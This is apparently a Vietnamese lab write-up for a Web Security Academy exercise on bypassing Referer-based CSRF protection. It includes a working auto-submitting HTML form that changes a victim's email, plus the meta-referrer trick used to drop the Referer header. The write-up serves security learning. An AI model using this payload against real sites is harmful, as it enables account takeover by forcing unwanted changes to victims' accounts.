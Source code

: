 ## CSRF where Referer validation depends on header being present

1. Login vào account được cấp, update email nhận thấy trong request không chứa csrf token.

2. Craft trang exploit

```
<form method="POST" action="https://0a7a00b204b88734c42a46aa00a300d0.web-security-academy.net/my-account/change-email">
<input name="email" value="sv_cuongdm@viettel.com"/>
</form>

<script>
	document.forms[0].submit();
</script>
```

-> Nhận được message thông báo referer header không hợp lệ.

3. Trong request đó referer header từ trang exploit. Do đó trường referer được dùng để xác định request change email có được gửi từ một host không. Thử gửi một request đổi email mà không có trường referer thì nhận thấy thành công.

![Img1](\asset/../img/without_referer.png)

4. Sử dụng thẻ `<meta name="referrer" content="never">` để khi gửi request không kèm referer header.

![Img2](\asset/../img/craft_exploit_page.png)